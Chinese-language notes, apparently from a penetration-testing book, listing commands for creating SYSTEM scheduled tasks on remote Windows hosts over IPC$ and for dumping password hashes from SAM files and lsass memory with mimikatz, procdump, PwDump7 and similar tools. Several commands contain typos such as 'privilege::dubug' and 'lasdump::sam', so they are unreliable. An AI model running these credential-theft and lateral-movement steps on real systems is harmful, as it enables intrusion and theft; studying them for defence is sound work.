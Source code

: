 ```cmd
//在建立IPC$连接的远程主机上创建名为"test"的计划任务,开机时启动,启动C盘下的calc.bat文件,启动权限为system
schtasks /create /s ip /tn test /sc instart /tr c:\calc.bat /ru system /f
//若未建立IPC$连接,可使用 /u 用户名 /p 密码参数
//运行该计划任务
schtasks .run /s ip /i /tn "test"
//删除计划任务  /f 强制删除
schtasks /delete /s ip /tn "test" /f
//删除IPC$连接
net use 名称 /del /y
```
## 5.2 windows系统散列值获取分析与防范
### 5.2.1 LM Hash和NTLM Hash(216页)
### 5.2.2 单机密码抓取与防范
> system权限
+ GetPass
直接运行
+ PwDump7
直接运行
+ QuarksPwDump
`QuarksPwDump.exe --dump-hash-local`
+ 通过SAM和system文件抓取密码
    + 导出SAM和system文件
	```cmd
	reg save hklm\sam sam.hive
	reg save hklm\system system.hive
	```
    + 通过读取SAM和system文件获得NTLM Hash
	```cmd
	//mimikatz
	lsadump::sam /sam:sam.hive /system:system.hive
	```
    + 使用cain读取SAM文件
选择"Import Hashes From a SAM database"选项
    + 使用mimikatz直接读取本地SAM文件,导出hash信息
    ```cmd
    //提升权限
    privilege::dubug
    //将权限提升至system
    token::elevate
    //读取本地SAM获取NTLM Hash
    lasdump::sam
    ```
+ 使用mimikatz在选读取SAM文件
`mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"`
+ 使用mimikatz离线读取lsass.dmp文件
    1. 导出lsass.dmp文件
        + 使用任务管理器到处lsass.dmp
        启动任务管理器,找到lsass.exe进程->右键,选择"create dump file"
		+ 使用procdump导出lsass.dmp
		`procdump.exe -accepteula -ma lsass.exe lsass.dmp`
	2. 使用mimikatz导出lsass.dmp文件中的密码散列值
	```cmd
	//命令行中运行mimikatz,加载lsass.dmp文件
	sekurlsa::minidump lsass.DMP
	//如果看到:"swith to MINIDUMP"字样,表示加载成功
	//导出密码散列值
	sekurlsa::logonPasswords full
	```
+ 使用powershell对散列值进行dump操作
```powershell
//Nishang
```